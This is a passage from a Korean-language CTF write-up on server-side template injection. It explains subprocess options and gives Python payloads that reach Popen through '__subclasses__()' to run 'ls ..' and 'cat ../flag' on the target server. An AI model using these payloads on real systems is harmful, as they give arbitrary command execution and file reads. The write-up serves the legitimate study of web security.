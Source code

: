`stdout=-1` or `stdout=subprocess.PIPE`: 
출력 결과를 `프로세스.communicate()`를 통해 캡처. stdout에서 출력 결과를 읽을 수 있게 함

`shell = 1`: 명령어가 쉘을 통해 실행됨

복잡한 명령어를 실행할 때 유용

여기선 `stdout=subprocess.PIPE`가 안됨

|

```python
"".__class__.__mro__[1].__subclasses__()[351](['ls', '..'] , stdout = -1).communicate()
```

`shell` 없이 실행하려면 `[’ls’, ‘..’]` 형식으로 명령어를 주면 됨

|

```python
"".__class__.__mro__[1].__subclasses__()[351]('ls ..', shell = 1, stdout = -1).communicate()
```

![8.1 SSTI - server flag 13](/assets/images/writeup/web-hacking/knock-on/8-1_SSTI_13.png)

상위 경로에 flag가 있음

|

```python
"".__class__.__mro__[1].__subclasses__()[351]('cat ../flag', shell = 1, stdout = -1).communicate()
```

![8.1 SSTI - server flag 14](/assets/images/writeup/web-hacking/knock-on/8-1_SSTI_14.png)
